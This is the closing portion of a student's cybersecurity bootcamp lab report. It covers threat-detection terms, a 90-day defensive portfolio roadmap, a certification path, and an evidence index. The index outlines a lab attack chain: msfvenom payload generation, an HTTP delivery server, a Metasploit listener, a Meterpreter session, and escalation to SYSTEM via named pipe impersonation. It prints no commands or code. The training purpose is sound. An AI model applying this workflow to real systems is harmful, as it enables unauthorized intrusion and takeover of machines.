  - **IOA (Indicator of Attack):** Prospective evidence that an attack is currently in progress (anomalous process parentage, memory injection).
  - **TTP (Tactics, Techniques & Procedures):** Behavioral methods describing how a threat actor operates. Because TTPs change slowly, behavior-based detection outlasts static signature filtering.

### 6.4 Industry Credential Pathway & 90-Day GitHub Roadmap

```
+------------------------------------------------------------------------------------------+
|                        90-DAY OPEN-SOURCE PORTFOLIO ROADMAP                              |
+------------------------------------------------------------------------------------------+
|  Days 1 - 30   | Project 1: Enterprise Multi-Subnet Virtual Cyber Range                  |
|                | - Document complete pfSense 2.6.0 network routing and VLAN topology.    |
|                | - Publish automated deployment scripts for AD, Kali, and Wazuh EDR.     |
+----------------+-------------------------------------------------------------------------+
|  Days 31 - 60  | Project 2: LOLBins Threat Hunting & Sigma Detection Repository          |
|                | - Develop curated Sigma & Sysmon rules targeting Certutil and MSHTA.    |
|                | - Include sample event logs, PCAPs, and detection validation guides.    |
+----------------+-------------------------------------------------------------------------+
|  Days 61 - 90  | Project 3: Automated Windows Endpoint CIS Benchmark Hardening Script   |
|                | - Create a PowerShell tool to audit UAC levels and Script Block Logging.|
|                | - Automatically remediate high-risk protocols (LLMNR, NetBIOS).         |
+------------------------------------------------------------------------------------------+
```

- **Credential Pathway:** **CompTIA Security+** (Months 1–2) $\rightarrow$ **Blue Team Level 1 / BTL1** (Months 3–4) $\rightarrow$ **Practical Network Penetration Tester / PNPT** (Months 5–6).

---

## 7. Evidence Repository Index

All empirical evidence, logs, and visual captures are indexed and accessible in the [`evidence/`](evidence/) directory:

| Artifact Identifier | Type | Description |
| :--- | :--- | :--- |
| `01_network_verification.txt` | Raw Text Log | Bidirectional ping verification across pfSense between Kali and Windows 10. |
| `02_msfvenom_payload_gen.txt` | Raw Text Log | Payload compilation parameters and stager sizing metrics (355 bytes). |
| `10_msfvenom_payload_generated.png` | Visual Capture | Terminal log of msfvenom generation confirming payload size (355 bytes, 7,168 PE). |
| `09_handler_listener_4444.png` | Visual Capture | Metasploit multi/handler listener configuration on port 4444. |
| `08_http_server_port8888.png` | Visual Capture | Python HTTP delivery server running on port 8888. |
| `02_payload_delivery_http.png` | Visual Capture | Target web browser downloading payload from Kali HTTP delivery server. |
| `04_smartscreen_warning.png` | Visual Capture | Windows SmartScreen prompt during execution — cloud reputation check unreachable in airgapped lab. |
| `04_payload_downloaded_windows.png` | Visual Capture | Target filesystem verification of win.exe in Windows Downloads folder. |
| `05_task_manager_execution.png` | Visual Capture | Windows Task Manager confirming active execution of win (32-bit). |
| `06_meterpreter_session_established.png`| Visual Capture | Metasploit console logging 203,451-byte stage delivery and Session 1 opened on port 4444. |
| `07_privilege_elevation_system.png / .txt` | Visual / Log | Verification of SEC\Administrator session and elevation to NT AUTHORITY\SYSTEM via Named Pipe Impersonation. |
| `12_privilege_escalation_system_confirmed.png` | Visual Capture | Final terminal verification confirming user identity as `NT AUTHORITY\SYSTEM`. |

---

*Report authored by Zahid Ullah for the PSEB / Atomcamp DEPLOY AI Cybersecurity Bootcamp (November 2026).*
